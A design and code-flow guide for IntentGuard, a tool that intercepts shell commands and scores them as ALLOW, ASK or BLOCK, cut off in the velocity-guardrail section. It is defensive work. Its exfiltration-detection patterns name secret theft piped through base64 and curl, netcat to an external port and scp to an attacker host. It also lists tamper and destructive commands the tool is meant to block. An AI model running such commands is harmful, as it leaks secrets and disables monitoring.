# IntentGuard — Product Design & Code Execution Flow

> A complete guide explaining every feature, how they connect, and the exact code path
> each request takes — written for someone new to the project.

---

## Table of Contents

1. [Big Picture: What IntentGuard Does](#1-big-picture)
2. [Signal Ingestion & Shell Hook](#2-signal-ingestion)
3. [Divergence Scoring Pipeline](#3-scoring-pipeline)
4. [Decision Engine & Guardrails](#4-decision-engine)
5. [Intent Sessions & Inferred Intent](#5-intent-sessions)
6. [Behavioral Profiling](#6-behavioral-profiling)
7. [Indian-Language Translation & Speech](#7-translation)
8. [NL Operations Assistant](#8-nl-assistant)
9. [Control Tower & Live Push (SSE)](#9-control-tower)
10. [Policy Engine](#10-policy-engine)
11. [Self-Defense, Hardening & Watchdog](#11-self-defense)
12. [Dual-Control, Capability Scope & Exfiltration Detection](#12-dual-control)
13. [Stretch Guardrails: Semantic, Velocity & Time-Context](#13-stretch-guardrails)
14. [Explainability & Data Sovereignty](#14-explainability)
15. [Snapshot / Undo](#15-snapshot)
16. [Demo Scenario Replay](#16-scenario-replay)
17. [End-to-End Flow: One Command Through Everything](#17-end-to-end)
18. [API Reference](#18-api-reference)
19. [Configuration Reference](#19-config-reference)

---

## 1. Big Picture: What IntentGuard Does {#1-big-picture}

Imagine a security guard between every Linux operator and their shell. Before ANY command
executes, IntentGuard intercepts it, scores how "suspicious" it is on a 0-to-1 scale, and
decides: **ALLOW** (run it), **ASK** (confirm first), or **BLOCK** (refuse).

It catches three attack types:
- **AI-agent hijack** — a compromised AI runs unauthorized commands
- **Copy-paste attacks** — malicious payloads hidden in clipboard
- **Session hijack** — someone else takes over a terminal session

The design target is a **2-second decision budget**. The current `decision.budget-ms` is
set to `60000` ms to accommodate Ollama/BT LLM server latency in the demo environment; the
architectural constraint still holds and tightens once sub-second inference is available.

### LLM Backends

Two pluggable backends, selected by `intentguard.llm.provider`:

| Provider | Config value | Default in this build |
|----------|--------------|-----------------------|
| **Ollama / BT SRE LLM** | `ollama` | ✅ (`Qwen2.5:14B` at `asksredigital.bt.com`) |
| **Google Gemini SDK** | `gemini` | — (requires `GEMINI_API_KEY`) |

Speech (STT/TTS) always uses Gemini multimodal regardless of the LLM provider setting.
Translation defaults to the Ollama backend.

### System Context Diagram


```mermaid
graph LR
    subgraph Operators
        H[Human Operator]
        A[AI Agent]
    end

    subgraph IntentGuard
        SH[Shell_Hook<br/>Unix Socket]
        SE[Scoring Engine]
        DE[Decision Engine]
        CT[Control Tower<br/>SSE]
        DB[(MongoDB)]
    end

    subgraph LLM Backends
        OLL[Ollama / BT LLM<br/>Qwen2.5:14B — default]
        GEM[Google Gemini<br/>Speech only by default]
        AUD[auditd<br/>Kernel]
    end

    H -->|command| SH
    A -->|command| SH
    SH --> SE
    SE -->|semantic scoring| OLL
    SE --> DE
    DE -->|ALLOW/ASK/BLOCK| SH
    DE -->|persist| DB
    DE -->|live push| CT
    AUD -->|execve events| SE
    CT -->|SSE stream| H
    GEM -->|STT/TTS| CT
```

### Threat Model Overview


```mermaid
graph TD
    subgraph Threat Classes
        T1[AI-Agent Hijack<br/>Prompt injection → unauthorized commands]
        T2[Copy-Paste Attack<br/>Obfuscated clipboard payloads]
        T3[Session Hijack<br/>Behavioral fingerprint mismatch]
        T4[Prompt Injection<br/>Malicious text embedded in args/env]
        T5[Velocity Attack<br/>Command burst to bypass rate checks]
    end

    subgraph Detection Components
        SS[Sequence Surprise]
        CM[Context Mismatch]
        SI[Semantic Inconsistency]
        BD[Behavioral Deviation]
        PI[PromptInjectionGuard]
        VG[VelocityGuard]
    end

    T1 --> SI
    T1 --> BD
    T1 --> PI
    T2 --> SS
    T2 --> CM
    T3 --> BD
    T3 --> SS
    T4 --> PI
    T5 --> VG
```

---

## 2. Signal Ingestion & Shell Hook {#2-signal-ingestion}

### Design

A shell pre-exec hook intercepts commands BEFORE execution, sends them over a Unix domain
socket, and blocks until a verdict comes back. A second source (auditd) provides async
detection for commands that bypass the hook.

`CommandEvent` carries an `inputOrigin` field (`TYPED`, `PASTED`, `UNKNOWN`) for copy-paste
detection, and a `signalSource` field (`HOOK`, `AUDIT`, `CORRELATED`) for corroboration.

### Signal Ingestion Flow


```mermaid
sequenceDiagram
    participant Op as Operator Shell
    participant Hook as Shell Pre-exec Hook
    participant Sock as UnixDomainSocketServer
    participant Codec as ShellSignalCodec
    participant Ingest as InteractiveSignalIngestor
    participant Pipeline as PipelineDecisionProvider

    Op->>Hook: command entered (Enter)
    Hook->>Sock: write(userId, command, cwd, env, timestamp, inputOrigin)
    Note over Hook: BLOCKS waiting for response

    Sock->>Codec: decode(bytes)
    Codec->>Ingest: submitInteractive(RawShellSignal)

    alt Decision provider unavailable
        Ingest-->>Hook: fail-safe ASK
    else Normal path
        Ingest->>Pipeline: submit to thread pool
        Note over Ingest: waits up to budget-ms

        alt Timeout
            Ingest-->>Hook: BLOCK (fail-safe)
        else Success
            Pipeline-->>Ingest: Verdict
            Ingest-->>Hook: ALLOW / ASK / BLOCK
        end
    end

    Hook-->>Op: execute / prompt / refuse
```

### Audit Feed (Asynchronous Detection)


```mermaid
graph LR
    K[Kernel auditd] -->|execve + file-write| AFR[AuditFeedReader]
    AFR --> C[Correlator]
    C -->|1s window| M{Match with<br/>Shell Hook event?}
    M -->|Yes| CORR[Corroborated Event<br/>signalSource=CORRELATED]
    M -->|No| DETECT[Detection-Only Event<br/>signalSource=AUDIT]
    CORR --> DB[(MongoDB Audit)]
    DETECT --> DB
    DETECT --> CT[Control Tower ALERT]
```

### Key files
- `ingest/UnixDomainSocketServer.java` — socket listener
- `ingest/ShellSignalCodec.java` — binary protocol codec
- `ingest/InteractiveSignalIngestor.java` — budget enforcer
- `ingest/AuditFeedReader.java` — async auditd tail
- `ingest/Correlator.java` — hook + audit event matching (1 s window)

---

## 3. Divergence Scoring Pipeline {#3-scoring-pipeline}

### Design

Four independent components each produce a suspicion score in [0, 1]. Combined via a
**renormalized weighted sum**. If a component is unavailable (e.g. LLM timeout), it is
excluded and the remaining weights renormalize automatically.

| Component | What it measures | Default weight |
|-----------|-----------------|----------------|
| **Sequence_Surprise** | n-gram statistical surprise vs. command history | 0.25 |
| **Context_Mismatch** | Command vs. working directory / repo / environment | 0.20 |
| **Semantic_Inconsistency** | LLM alignment with declared (or inferred) intent | 0.30 |
| **Behavioral_Deviation** | Distance from learned behavioral profile | 0.25 |

**Math:** `composite = Σ(score_i × weight_i) / Σ(weight_i)` for non-excluded components.
When all are excluded, composite = `0.0` (least-divergent safe default). Components are
sorted deterministically by `ComponentId` — same inputs always give the same output.

### Scoring Pipeline Flow


```mermaid
flowchart TD
    CTX[ScoringContext<br/>event + intentText + intentSource<br/>ProfileState + ScoringConfig] --> P[DefaultScoringPipeline]

    P --> SS[SequenceSurpriseComponent]
    P --> CM[ContextMismatchComponent]
    P --> SI[SemanticInconsistencyComponent]
    P --> BD[BehavioralDeviationComponent]

    SS --> R1[ComponentResult score+weight]
    CM --> R2[ComponentResult score+weight]

    SI --> CHK1{Intent text available?<br/>DECLARED or INFERRED}
    CHK1 -->|No — NONE| EX1[EXCLUDED]
    CHK1 -->|Yes| LLM[Call LLM<br/>Ollama or Gemini]
    LLM -->|Timeout / malformed| EX2[EXCLUDED]
    LLM -->|Success| R3[ComponentResult score+weight]

    BD --> CHK2{Profile state?}
    CHK2 -->|LEARNING| EX3[EXCLUDED]
    CHK2 -->|ACTIVE| R4[ComponentResult score+weight]

    R1 & R2 & R3 & R4 --> COMBINE[Σ score×weight / Σ weight<br/>Clamp to 0,1]
    EX1 & EX2 & EX3 -.->|not included| COMBINE

    COMBINE --> ADJ[AgentRiskAdjuster<br/>uplift for agent risk markers]
    ADJ --> RESULT[DivergenceResult<br/>composite + components + excluded]
```

> **Inferred intent** (stretch, off by default): when `intentguard.inferred-intent.enabled=true`
> and no human session is open, `InferredIntentService` derives intent from the user's profile
> via LLM `summarizeIntent()`. Semantic scores against it with a reduced weight
> (`IntentSource=INFERRED`). When disabled or unavailable, Semantic is excluded as before.

### Default Weight Distribution


```mermaid
pie title Scoring Weights (Default)
    "Semantic Inconsistency" : 30
    "Sequence Surprise" : 25
    "Behavioral Deviation" : 25
    "Context Mismatch" : 20
```

### Key files
- `scoring/DefaultScoringPipeline.java` — renormalized weighted sum
- `scoring/SequenceSurpriseComponent.java`, `ContextMismatchComponent.java`,
  `SemanticInconsistencyComponent.java`, `BehavioralDeviationComponent.java`
- `scoring/AgentRiskAdjuster.java` — only ever raises the composite
- `scoring/CommandNormalizer.java` — normalizes + categorizes commands
- `domain/ScoringContext.java` — full input (event + intent + source + profile state)
- `domain/DivergenceResult.java` — output record

---

## 4. Decision Engine & Guardrails {#4-decision-engine}

### Design

Two layers:

- **`DefaultDecisionEngine`** (inner): tamper → threshold map → learning clamp → agent containment
- **`GuardrailDecisionEngine`** (outer wrapper): adds policy, blast-radius, capability scope, and dual-control

All optional guardrails are wired `@Autowired(required = false)` — absent when their flag is
off. `PipelineDecisionProvider` is the single entry point that assembles everything, runs
the pipeline, persists the audit record, and publishes the SSE event.

### Full Decision Chain


```mermaid
flowchart TD
    INPUT[CommandEvent + DivergenceResult] --> TAMPER{Step 1:<br/>TamperClassifier}

    TAMPER -->|YES| BLOCK_T[BLOCK score=1.0<br/>REJECTED_TAMPER]
    TAMPER -->|NO| POLICY{Step 2:<br/>Policy DENY?<br/>before learning clamp}

    POLICY -->|YES| BLOCK_P[BLOCK<br/>POLICY_DENY — never downgraded]
    POLICY -->|NO| BLAST{Step 3a:<br/>Blast radius<br/>block-on-access?}

    BLAST -->|YES| BLOCK_B[BLOCK<br/>BLAST_RADIUS_BLOCK_ON_ACCESS]
    BLAST -->|NO| SFLOOR[Step 3b:<br/>Apply destructive-verb score floor]

    SFLOOR --> THRESH{Step 4: Threshold map}
    THRESH -->|score < 0.4| ALLOW_T[ALLOW]
    THRESH -->|0.4 ≤ score < 0.7| ASK_T[ASK]
    THRESH -->|score ≥ 0.7| BLOCK_TH[BLOCK]

    ALLOW_T --> LEARN{Step 5:<br/>Profile LEARNING?}
    ASK_T --> AGENT{Step 6:<br/>Agent + no human session?}
    BLOCK_TH --> LEARN

    LEARN -->|YES + was BLOCK| ASK_L[ASK LEARNING_CLAMP]
    LEARN -->|NO| AGENT

    AGENT -->|YES| ASK_A[ASK AGENT_CONTAINMENT]
    AGENT -->|NO| POLALLOW{Step 7:<br/>Policy ALLOW + base=BLOCK?}

    ASK_L --> POLALLOW
    ASK_A --> POLALLOW

    POLALLOW -->|YES| SUPPRESS[ALLOW POLICY_ALLOW]
    POLALLOW -->|NO| FLOOR[Step 8: Floor composition<br/>most-restrictive wins]
    SUPPRESS --> FLOOR

    FLOOR --> DECISION[Final Decision<br/>action + score + reasonCode]

    note1[REQUIRE_CONFIRM → ASK floor] -.-> FLOOR
    note2[Blast-radius ASK floor] -.-> FLOOR
    note3[Capability scope → ASK floor] -.-> FLOOR
    note4[Dual-control PENDING → ASK floor] -.-> FLOOR
    note5[Dual-control TIMED_OUT → BLOCK floor] -.-> FLOOR

    style BLOCK_T fill:#ff6b6b,color:#fff
    style BLOCK_P fill:#ff6b6b,color:#fff
    style BLOCK_B fill:#ff6b6b,color:#fff
    style BLOCK_TH fill:#ff6b6b,color:#fff
    style ALLOW_T fill:#51cf66,color:#fff
    style SUPPRESS fill:#51cf66,color:#fff
    style ASK_T fill:#ffd43b,color:#000
    style ASK_L fill:#ffd43b,color:#000
    style ASK_A fill:#ffd43b,color:#000
```

### Threshold Ranges (defaults)

```
0.0 ─────────── 0.4 ──────────── 0.7 ─────────── 1.0
     ✅ ALLOW         ⚠️ ASK           🛑 BLOCK
```

`askThreshold=0.4`, `blockThreshold=0.7` — both hot-reloadable via `PUT /api/thresholds`.

An unconfirmed ASK becomes a BLOCK after `confirmation-timeout-ms` (15 s) via
`DefaultDecisionEngine.onAskTimeout()` → reason `ASK_TIMEOUT_BLOCK`.

### Reason Codes

| Code | Trigger |
|------|---------|
| `REJECTED_TAMPER` | Command targets the engine |
| `POLICY_DENY` | Matched a DENY rule |
| `BLAST_RADIUS_BLOCK_ON_ACCESS` | Protected target accessed |
| `THRESHOLD_ALLOW/ASK/BLOCK` | Score in respective range |
| `LEARNING_CLAMP` | BLOCK downgraded — profile LEARNING |
| `AGENT_CONTAINMENT` | Agent with no human session → ASK |
| `POLICY_ALLOW` | Policy rule suppressed score-derived BLOCK |
| `POLICY_REQUIRE_CONFIRM` | Policy rule raised floor to ASK |
| `BLAST_RADIUS_ASK` | Mass-op / destructive verb raised floor |
| `CAPABILITY_SCOPE` | Agent command outside permitted scope |
| `DUAL_CONTROL_PENDING` | Awaiting second approver |
| `DUAL_CONTROL_TIMEOUT` | Approval window expired → BLOCK |
| `ASK_TIMEOUT_BLOCK` | Confirmation window expired → BLOCK |

### Key files
- `decision/GuardrailDecisionEngine.java` — outer wrapper, full 8-step chain
- `decision/DefaultDecisionEngine.java` — inner: threshold + clamps
- `decision/PipelineDecisionProvider.java` — wiring, audit persistence, SSE publish
- `decision/TamperClassifier.java` — self-defense check
- `blastradius/BlastRadiusGuard.java` — protected targets + mass ops + destructive verbs
- `domain/GuardrailContext.java` — policy + blast-radius + capabilityScope + dualControl

---

## 5. Intent Sessions & Inferred Intent {#5-intent-sessions}

### Design

Operators declare what they plan to do in natural language. This creates a reference for the
Semantic_Inconsistency scorer. Commands matching the intent score LOW; mismatches score HIGH.

**Critical rule:** AI agents can NEVER open/modify/close intent sessions.

**Inferred intent** (stretch, off by default): when `intentguard.inferred-intent.enabled=true`
and no session is open, `InferredIntentService` derives intent from the user's top commands
via LLM `summarizeIntent()`. Source recorded as `IntentSource=INFERRED`; reduced semantic weight applied.

### Intent Resolution


```mermaid
flowchart TD
    PDP[PipelineDecisionProvider] --> SESS{Active human session?}
    SESS -->|YES| DECL[intentText = declared<br/>IntentSource = DECLARED]
    SESS -->|NO| INFER{InferredIntentService wired?}
    INFER -->|NO or degrades| NONE[intentText = null<br/>IntentSource = NONE<br/>Semantic excluded]
    INFER -->|YES| LLM[LLM summarizeIntent<br/>from profile top commands]
    LLM -->|Success| INFR[intentText = inferred<br/>IntentSource = INFERRED<br/>reduced weight]
    LLM -->|Unavailable| NONE
    DECL & INFR & NONE --> CTX[ScoringContext → pipeline]
```

### Session Lifecycle


```mermaid
stateDiagram-v2
    [*] --> OPEN: Human opens session (POST /api/sessions)
    OPEN --> OPEN: Modify intent (Human only)
    OPEN --> CLOSED: Human closes / timeout

    state OPEN {
        [*] --> Translating: Non-English input
        [*] --> Active: English input
        Translating --> Active: Translation success
        Translating --> Rejected: Translation failure
    }

    note right of OPEN
        Agent mutation attempts always
        rejected — AgentIntentMutationException
    end note
```

### Intent Session Flow


```mermaid
sequenceDiagram
    participant Op as Operator
    participant API as IntentSessionController
    participant IIS as InboundIntentService
    participant TS as TranslationService
    participant ISM as IntentSessionManager
    participant SC as SemanticInconsistencyComponent

    Op->>API: POST /api/sessions {text, lang, actor}
    API->>IIS: submit(operatorId, text, lang, actor)

    alt Actor is Agent
        IIS-->>API: throw AgentIntentMutationException
        API-->>Op: 403 Forbidden
    else Non-English
        IIS->>TS: translateInbound(text, lang)
        alt Translation succeeds
            TS-->>IIS: englishText
            IIS->>ISM: open(user, englishText, originalText, lang)
        else Translation fails
            TS-->>IIS: failure
            IIS-->>API: rejected(retryPrompt)
            API-->>Op: 422 with localized message
        end
    else English
        IIS->>ISM: open(user, text, actor)
    end

    ISM-->>API: IntentSession
    API-->>Op: 201 Created {sessionId}

    Note over SC: During command scoring...
    SC->>ISM: activeSessionFor(principalKey)
    ISM-->>SC: session.declaredIntent (IntentSource=DECLARED)
    SC->>SC: Compare command vs intent via LLM
```

### Key files
- `intent/DefaultIntentSessionManager.java`, `intent/InboundIntentService.java`
- `intent/InferredIntentService.java` — stretch LLM-derived intent
- `intent/AgentIntentMutationException.java`
- `domain/IntentSource.java` — NONE / DECLARED / INFERRED

---

## 6. Behavioral Profiling {#6-behavioral-profiling}

### Design

Per-user learned model of normal behavior. Profile updates only on ALLOW decisions —
adversarial commands never pollute the baseline.

- **LEARNING** (< 200 events): model building; BLOCK downgraded to ASK; `BehavioralDeviation` excluded
- **ACTIVE** (≥ 200 events): full scoring; BLOCK allowed

Threshold configurable: `decision.learning-min-events` (default 200).

### Profile State Machine


```mermaid
stateDiagram-v2
    [*] --> LEARNING: First command observed
    LEARNING --> LEARNING: count < 200, BLOCK→ASK
    LEARNING --> ACTIVE: count ≥ 200
    ACTIVE --> ACTIVE: Continuous learning, full scoring
```

### Behavioral Scoring Flow


```mermaid
flowchart TD
    EVT[CommandEvent] --> PSP[ProfileSnapshotProvider]
    PSP --> STATE{Profile State?}
    STATE -->|LEARNING| EXCL[EXCLUDED — PROFILE_LEARNING]
    STATE -->|ACTIVE| COMPARE[Compare vs profile]
    COMPARE --> VOC[Vocabulary distance]
    COMPARE --> TOD[Time-of-day distance]
    COMPARE --> DIR[Directory pattern distance]
    COMPARE --> SEQ[Sequence surprise]
    VOC & TOD & DIR & SEQ --> SCORE[ComponentResult score ∈ 0,1]
    EVT --> SAD[SessionAnomalyDetector]
    SAD --> ANOM{Anomaly?}
    ANOM -->|Yes| ALERT[Push ALERT to Control Tower]
```

### Key files
- `profile/BehavioralProfileManager.java`, `profile/SessionAnomalyDetector.java`
- `scoring/BehavioralDeviationComponent.java`, `scoring/ProfileSnapshotProvider.java`

---

## 7. Indian-Language Translation & Speech {#7-translation}

### Design

11 languages supported. All internal processing uses English. `TechnicalTokenProtector`
masks commands/paths/IPs before translation and restores them byte-for-byte after.

Per-operator language preferences are **persisted to MongoDB** via `LanguagePreferenceService`
and applied automatically by `TranslatingLiveEventSink` to every SSE alert.

Translation backend selected by `intentguard.translation.provider`:

| Provider | Notes |
|----------|-------|
| `OllamaTranslationProvider` | Default; uses `ollama.translation-model` |
| `GeminiTranslationProvider` | Original backend |
| `BhashiniTranslationProvider` | Government stack |
| `CloudTranslationProvider` | Alternate cloud option |

### Translation Pipeline


```mermaid
flowchart TD
    INPUT[text + language] --> CACHE{TranslationCache hit?}
    CACHE -->|HIT| RETURN[Return cached]
    CACHE -->|MISS| PROTECT[TechnicalTokenProtector.protect]
    PROTECT --> MASKED[maskedText + tokenMap]
    MASKED --> GATE{SensitiveContentGate}
    GATE -->|SENSITIVE| BLOCKED[BLOCKED]
    GATE -->|OK| PROVIDER[TranslationProvider]
    PROVIDER --> OLL[OllamaTranslationProvider default]
    PROVIDER --> G[Gemini]
    PROVIDER --> B[Bhashini]
    PROVIDER --> C[Cloud]
    OLL & G & B & C --> TIMEOUT{Timeout?}
    TIMEOUT -->|YES| FALLBACK[Fall back to English]
    TIMEOUT -->|NO| RESTORE[TechnicalTokenProtector.restore]
    RESTORE --> AUDIT[TranslationRecordRepository]
    AUDIT --> CACHE_PUT[TranslationCache.put]
    CACHE_PUT --> RESULT[TranslationResult]
    style BLOCKED fill:#ff6b6b,color:#fff
    style FALLBACK fill:#ffd43b,color:#000
```

### Supported Languages

English (`en`), Hindi (`hi`), Bengali (`bn`), Telugu (`te`), Marathi (`mr`), Tamil (`ta`),
Gujarati (`gu`), Kannada (`kn`), Malayalam (`ml`), Punjabi (`pa`), Odia (`or`).

### Speech (STT/TTS)

Always via Gemini multimodal API regardless of `llm.provider` setting.
STT: `POST /api/speech/recognize` — 10 s timeout. TTS: `POST /api/content/speech` — 5 s timeout.

### Key files
- `translation/DefaultTranslationService.java`, `translation/TechnicalTokenProtector.java`
- `translation/OllamaTranslationProvider.java` (new default)
- `translation/LanguagePreferenceService.java`, `translation/TranslatingLiveEventSink.java`
- `speech/GeminiSpeechProvider.java`

---

## 8. NL Operations Assistant {#8-nl-assistant}

### Design

Operators describe tasks in natural language (any of 11 languages). The system generates
2-3 safe shell commands, scores the selected one through the full pipeline, and executes
only after explicit confirmation. Operator identity via `X-Operator-Id` header.

**Generation blocklist** — unconditionally refused at generation time:
`rm -rf /`, `mkfs`, `rmmod`, `modprobe -r`.

### NL Assistant Session Lifecycle


```mermaid
stateDiagram-v2
    [*] --> Query: POST /api/assist
    Query --> Generated: Commands generated
    Generated --> Scored: POST /api/assist/select
    Scored --> Executed: POST /api/assist/confirm
    Scored --> Query: Multi-turn
    Executed --> Query: Multi-turn
    Query --> [*]: DELETE /api/assist/sessions/{id}
    Generated --> [*]: 5 min idle timeout

    note right of Query
        Rate limited: 10/min per operator
        Translation: non-English → English
    end note
    note right of Scored
        BLOCK → cannot confirm
    end note
```

### Full Assist Flow


```mermaid
sequenceDiagram
    participant Op as Operator
    participant AC as AssistController
    participant NL as DefaultNlAssistService
    participant RL as AssistRateLimiter
    participant GEN as CommandGenerator
    participant BL as GenerationBlocklist
    participant SP as ScoringPipeline
    participant DE as GuardrailDecisionEngine
    participant EX as CommandExecutor

    Op->>AC: POST /api/assist + X-Operator-Id
    AC->>NL: query(operatorId, request)
    NL->>RL: checkAndRecord — 429 if exceeded
    NL->>GEN: generate(englishQuery, history)
    GEN-->>NL: List of CommandAlternative
    NL->>BL: filter — 422 if all blocked
    NL-->>Op: AssistResponse{alternatives}

    Op->>AC: POST /api/assist/select
    AC->>NL: select → score → decide
    NL->>SP: score(commandEvent)
    NL->>DE: decide(...)
    NL-->>Op: SelectResponse{score, action}

    Op->>AC: POST /api/assist/confirm
    alt BLOCK
        AC-->>Op: 403 Forbidden
    else ALLOW or ASK-confirmed
        NL->>EX: execute [30s timeout]
        NL-->>Op: ConfirmResponse{output}
    end
```

### Key files
- `assist/AssistController.java`, `assist/DefaultNlAssistService.java`
- `assist/GeminiCommandGenerator.java`, `assist/GenerationBlocklist.java`
- `assist/AssistRateLimiter.java`, `assist/CommandExecutor.java`
- `assist/AssistSessionManager.java`, `assist/AssistAuditRepository.java`

---

## 9. Control Tower & Live Push (SSE) {#9-control-tower}

### Design

Real-time dashboard via Server-Sent Events. Every scoring decision, alert, session event,
velocity alert, and intent-drift alert is pushed to subscribed browsers immediately.
Per-subscriber translation applied automatically using persisted language preference.

### SSE Architecture


```mermaid
flowchart LR
    subgraph Events
        SC[Score Decision]
        AL[Anomaly Alert]
        VA[Velocity Alert]
        DG[Drift Alert]
        SE[Session Event]
    end
    SC & AL & VA & DG & SE --> SINK[TranslatingLiveEventSink]
    SINK --> SUB1[Subscriber lang:en]
    SINK --> SUB2[Subscriber lang:hi — translated]
    SINK --> SUB3[Subscriber lang:ta — translated]
    SUB1 & SUB2 & SUB3 --> SSE[SseEmitter ∞ timeout]
    SSE -->|IOException| REMOVE[Auto-remove dead]
```

### SSE Subscription Flow


```mermaid
sequenceDiagram
    participant Browser as Control Tower UI
    participant LPC as LivePushController
    participant TLES as TranslatingLiveEventSink
    participant TS as TranslationService
    participant Engine as Scoring/Decision Engine

    Browser->>LPC: GET /api/stream
    LPC->>LPC: Create SseEmitter (∞ timeout)
    LPC->>TLES: register(emitter, operatorId)
    LPC-->>Browser: HTTP 200 (SSE stream open)

    loop Every engine event
        Engine->>TLES: push(LiveEvent)
        TLES->>TLES: getLanguagePreference(operatorId)

        alt Language ≠ English
            TLES->>TS: translate(message, "en", pref)
            TS-->>TLES: localized message
        end

        TLES->>Browser: emitter.send(event)
    end

    Note over Browser,TLES: On IOException → remove dead emitter
```

### Other Control Tower endpoints
- `GET /api/history` — audit history (`userId`, `from`, `to`)
- `PUT /api/thresholds` — hot-reload scoring thresholds
- `POST /api/events/{id}/resolve` — admin resolves pending ASK
- `POST /api/events/{id}/approve` — four-eyes dual-control approval

### Key files
- `api/LivePushController.java`, `api/ControlTowerController.java`
- `api/TranslatingLiveEventSink.java`

---

## 10. Policy Engine {#10-policy-engine}

### Design

Deterministic rules that override AI scoring. Rule patterns support GLOB and REGEX. Scoped
to specific users, groups, or environments.

- **DENY** — BLOCK (evaluated *before* the learning clamp, never downgraded to ASK)
- **REQUIRE_CONFIRM** — raises action floor to ASK
- **ALLOW** — suppresses a score-derived BLOCK (does not override tamper or DENY)

### Policy Evaluation Flow


```mermaid
flowchart TD
    EVT[CommandEvent] --> LOAD[Load policies from MongoDB cache]
    LOAD --> SORT[Sort by priority desc]
    SORT --> LOOP{For each rule}
    LOOP --> SCOPE{Scope matches?}
    SCOPE -->|NO| LOOP
    SCOPE -->|YES| PAT{Pattern matches?<br/>GLOB or REGEX}
    PAT -->|NO| LOOP
    PAT -->|YES| MATCH[PolicyDecision type + ruleId]
    LOOP -->|no match| NONE[PolicyDecision.none]
    MATCH & NONE --> INT[GuardrailDecisionEngine integration]
    INT --> D1[DENY → BLOCK Step 2]
    INT --> D2[REQUIRE_CONFIRM → ASK floor Step 8]
    INT --> D3[ALLOW + BLOCK → suppress Step 7]
    style D1 fill:#ff6b6b,color:#fff
    style D2 fill:#ffd43b,color:#000
    style D3 fill:#51cf66,color:#fff
```

### Key files
- `policy/CommandPolicyService.java`, `policy/PolicyRule.java` (`PatternKind`: GLOB/REGEX)
- `policy/PolicyDecision.java`, `policy/PolicyAction.java`

---

## 11. Self-Defense, Hardening & Watchdog {#11-self-defense}

### Design

Five layers ensuring IntentGuard cannot be disabled or bypassed:

1. **TamperClassifier** — command targeting engine → BLOCK (score=1.0, no exceptions)
2. **SelfDefenseGuard** — API-level rejection of operations targeting engine internals
3. **MonitoringGapWatchdog** — alerts when audit feed silent > 5 s
4. **PrivilegeSeparationChecker** *(new)* — startup `@PostConstruct` check; refuses enforcing state if engine runs as a monitored user
5. **FailClosedGuard** *(new)* — required dependency unavailable → BLOCK (score=1.0) immediately; enabled by default

### Self-Defense Layers

```mermaid
flowchart TD
    subgraph "Layer 1: TamperClassifier"
        CMD[Command] --> T1{kill/pkill intentguard?}
        CMD --> T2{rm/mv engine paths?}
        CMD --> T3{mongo intentguard DB?}
        CMD --> T4{rm socket path?}
        CMD --> T5{auditctl -D?}
        T1 & T2 & T3 & T4 & T5 -->|ANY| BLOCK1[BLOCK score=1.0]
    end
    subgraph "Layer 2: SelfDefenseGuard"
        API[API Request] --> APICHK{Engine internals?}
        APICHK -->|YES| REJECT[Reject + audit]
    end
    subgraph "Layer 3: MonitoringGapWatchdog"
        SCHED[Scheduled] --> GAP{silent > 5s?}
        GAP -->|YES| WALERT[ALERT: Audit feed silent]
    end
    subgraph "Layer 4: PrivilegeSeparationChecker"
        BOOT[@PostConstruct] --> PSEP{Runs as service account?}
        PSEP -->|NO| REFUSE[Refuse enforcing state]
    end
    subgraph "Layer 5: FailClosedGuard"
        DEP[Dependency] --> PROBE{Reachable?}
        PROBE -->|NO| FBLOCK[BLOCK score=1.0]
    end
    style BLOCK1 fill:#ff6b6b,color:#fff
    style REJECT fill:#ff6b6b,color:#fff
    style REFUSE fill:#ff6b6b,color:#fff
    style FBLOCK fill:#ff6b6b,color:#fff
    style WALERT fill:#ffd43b,color:#000
```

### Key files
- `decision/TamperClassifier.java`, `watchdog/SelfDefenseGuard.java`
- `watchdog/MonitoringGapWatchdog.java`
- `hardening/PrivilegeSeparationChecker.java` *(new)*
- `hardening/FailClosedGuard.java`, `hardening/DependencyProbe.java` *(new)*

---

## 12. Dual-Control, Capability Scope & Exfiltration Detection {#12-dual-control}

### Dual-Control (Four-Eyes Approval)

Two distinct people required for sensitive operations. Self-approval always rejected.

| Status | Effect |
|--------|--------|
| `PENDING` | Command withheld — ASK floor |
| `REJECTED` | Stays PENDING (self-approval attempt) |
| `CONFIRMED` | Can proceed |
| `TIMED_OUT` | BLOCK (fail-safe) |


```mermaid
sequenceDiagram
    participant Op as Originator
    participant IG as IntentGuard
    participant CT as Control Tower
    participant Ap as Approver (different person)

    Op->>IG: sensitive command
    IG->>IG: PENDING → ASK floor
    IG->>CT: Push pending event
    IG-->>Op: withheld

    alt Timeout (15s)
        IG->>IG: expireOverdue → TIMED_OUT → BLOCK
    else Self-approval
        Op->>IG: POST /api/events/{id}/approve
        IG-->>Op: 403 — stays PENDING
    else Valid approval
        Ap->>IG: POST /api/events/{id}/approve
        IG->>IG: Verify approver ≠ originator → CONFIRMED
    end
```

### Capability Scope *(new)*

Each AI agent has a configured permitted command-class list. `CapabilityScope` uses
`CommandNormalizer.category()` (e.g. `git` → `vcs`, `kubectl` → `orchestration`) to
classify the command. Out-of-scope → ASK floor (`CAPABILITY_SCOPE`).

```mermaid
flowchart LR
    AGT[Agent CommandEvent] --> NORM[CommandNormalizer.category]
    NORM --> CHK{Within agent permitted scope?}
    CHK -->|YES| PASS[No additional floor]
    CHK -->|NO| FLOOR[ASK floor CAPABILITY_SCOPE]
```

### Exfiltration Detection

Class is `ExfiltrationCorrelator` (not `ExfiltrationDetector` as older docs named it).

```mermaid
flowchart LR
    subgraph Patterns
        P1[cat secret | base64 | curl]
        P2[tar | nc external:4444]
        P3[scp sensitive attacker@remote]
    end
    P1 & P2 & P3 --> EC[ExfiltrationCorrelator]
    EC --> FLOOR[Raise score floor]
    EC --> ALERT[Push ALERT]
    CAN[Canary tokens in sensitive files] --> CORR[Correlate with outbound traffic]
    CORR -->|match| EC
```

### Key files
- `dualcontrol/DualControlService.java`, `dualcontrol/CapabilityScope.java` *(new)*
- `exfil/ExfiltrationCorrelator.java`

---

## 13. Stretch Guardrails: Semantic, Velocity & Time-Context {#13-stretch-guardrails}

All three are flag-gated via `@ConditionalOnProperty` and wired `@Autowired(required = false)`.
Absent when flags are off; the core pipeline runs identically.

### 13a. Semantic Guardrails (`semantic/`)

`intentguard.guardrails.semantic.enabled=true`

| Component | What it does |
|-----------|-------------|
| **PromptInjectionGuard** | Matches heuristic patterns; raises score floor to ≥ 0.85 on first match |
| **IntentDriftTracker** | Per-session cumulative drift accumulator; alert when drift > `driftThreshold` (default 1.0) |
| **SemanticLlmGuard** | Excludes malformed/absent LLM responses rather than treating them as signal |

### 13b. Velocity Guardrail (`velocity/`)

